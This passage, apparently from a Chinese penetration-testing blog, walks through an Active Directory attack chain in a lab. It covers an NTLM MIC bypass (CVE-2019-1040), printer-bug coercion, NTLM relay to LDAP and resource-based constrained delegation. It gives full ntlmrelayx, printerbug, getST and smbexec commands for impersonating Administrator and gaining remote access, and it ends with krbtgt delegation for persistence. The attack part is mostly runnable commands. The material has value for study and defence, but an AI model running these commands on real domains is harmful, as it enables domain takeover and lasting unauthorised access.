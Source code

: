接下来，拿到该成员，利用方式与攻击手法1无二，只是获取到的机器能够更多

攻击手法二相较于一，我认为区别在于手法一先确定机器，到用户再到机器，手法二从用户到机器

### 攻击手法三

**绕过NTLM MIC校验+打印机漏洞+NTLM Relay+基于资源的约束性委派组合攻击(CVE-2019-1040)**

利用条件：

1. 能创建机器账户
2. 目标开启打印机服务

打印机服务是默认开启的

+ 创建机器账户

  这里创建一个名为test2密码为test.123的机器账户，可以使用bloodyAD.py等方法

+ 监听认证请求

  ```
  python3.8 ntlmrelayx.py -t ldap://192.168.30.10 -smb2support --remove-mic --delegate-access --escalate-user test2\$
  ```

  ![ntlmrelayx](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/ntlmrelayx.png)

+ 使用打印机漏洞强行回连

  ```
  python3 printerbug.py hack.com/hacker:\!qaz@WSX@192.168.30.20 192.168.30.128
  ```


+ 申请服务票据

  ```shell
  # 制作服务票据
  python3 getST.py hack.com/test2\$:test.123 -spn CIFS/PC.hack.com -impersonate Administrator -dc-ip 192.168.30.10
  ```

+ 使用该票据

  ```shell
  # 注入票据
  export KRB5CCNAME=Administrator.ccache
  
  # 远程访问
  python3 smbexec.py -target-ip 192.168.30.20 -k PC.hack.com -no-pass
  ```

### 委派krbtgt

委派krbtgt类似于一个黄金票据，可以用来作权限维持

创建一个新的机器用户，为krbtgt添加指向sid，指向该机器用户

之后就能通过申请票据，远程连接域控
